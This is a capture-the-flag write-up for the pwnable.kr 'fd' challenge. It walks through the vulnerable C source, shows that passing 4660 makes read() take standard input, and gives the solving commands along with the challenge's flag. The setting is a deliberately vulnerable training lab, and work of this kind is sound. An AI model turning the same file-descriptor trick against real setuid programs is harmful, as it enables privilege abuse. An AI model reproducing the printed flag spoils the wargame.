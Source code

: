 ```yaml
---
title: "pwnable.kr - fd"
classes: wide
tag: 
  - "file descriptors"
header:
  teaser: /assets/images/pwn/pwn.png
ribbon: green
description: "A simple challenge related to file descriptors"
categories:
  - htb
---
```


Lets connect to the server

```c
ra@moni~/P/pwnable.kr> ssh fd@128.61.240.205 -p 2222
fd@128.61.240.205's password:
 ____  __    __  ____    ____  ____   _        ___      __  _  ____
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    /
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|

- Site admin : daehee87@gatech.edu
- IRC : irc.netgarage.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal
You have mail.
Last login: Wed Jun  2 04:57:50 2021 from 106.114.115.94
fd@pwnable:~$
```

After listing the files, we can see there are some privilege restrictions 

```c
fd@pwnable:~$ ls -la
total 40
drwxr-x---   5 root   fd   4096 Oct 26  2016 .
drwxr-xr-x 115 root   root 4096 Dec 22 08:10 ..
d---------   2 root   root 4096 Jun 12  2014 .bash_history
-r-sr-x---   1 fd_pwn fd   7322 Jun 11  2014 fd
-rw-r--r--   1 root   root  418 Jun 11  2014 fd.c
-r--r-----   1 fd_pwn root   50 Jun 11  2014 flag
-rw-------   1 root   root  128 Oct 26  2016 .gdb_history
dr-xr-xr-x   2 root   root 4096 Dec 19  2016 .irssi
drwxr-xr-x   2 root   root 4096 Oct 23  2016 .pwntools-cache
```

It seems like we cannot read the flag directly

```c
fd@pwnable:~$ whoami
fd
fd@pwnable:~$ cat flag
cat: flag: Permission denied
```

And analysing our source code of the binary we get,

The RAW CODE is given below,

```c
fd@pwnable:~$ cat fd.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
	if(argc<2){
		printf("pass argv[1] a number\n");
		return 0;
	}
	int fd = atoi( argv[1] ) - 0x1234;
	int len = 0;
	len = read(fd, buf, 32);
	if(!strcmp("LETMEWIN\n", buf)){
		printf("good job :)\n");
		system("/bin/cat flag");
		exit(0);
	}
	printf("learn about Linux file IO\n");
	return 0;

}
```

From here we can see,

- This binary uses a global variable ```buf``` of 32 bytes

- This binary gets two inputs from arguments (ie. Filename Arg1 )

- It uses ```atoi()``` to convert string to integer

- It uses ```read()``` to get the input data

- It uses ```strcmp()``` and compares it with ```LETMEWIN``` to display the flag


First inorder to compare the data, we need to store it in the ```buf```

Here we are using ```read()``` to store it in ```buf```

To use ```read()``` properly we need to pass the "file descriptor" correctly

```read()``` needs ```0``` as file descriptor

For more about [File Descriptor](https://en.wikipedia.org/wiki/File_descriptor)

To make our file descriptor ```fd``` as ```0```

we should make use of ```int fd = atoi( argv[1] ) - 0x1234;```

So if we pass a value of ```0x1234``` in ```argv[1]``` we could activate ```read()```

Now we need to find value of ```0x1234``` in ```int```

```c
Python 3.8.5 (default, May 27 2021, 13:30:53)
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> print(0x1234)
4660
```

If we pass this value, our ```read()``` function should be opened to pass our data

Now lets pass ```LETMEWIN``` in our ```buf```

```c
fd@pwnable:~$ ./fd
pass argv[1] a number
fd@pwnable:~$ ./fd 4660
LETMEWIN
good job :)
mommy! I think I know what a file descriptor is!!
```

Thats it, we got our conditions true

And we get the flag

```FLAG: mommy! I think I know what a file descriptor is!!```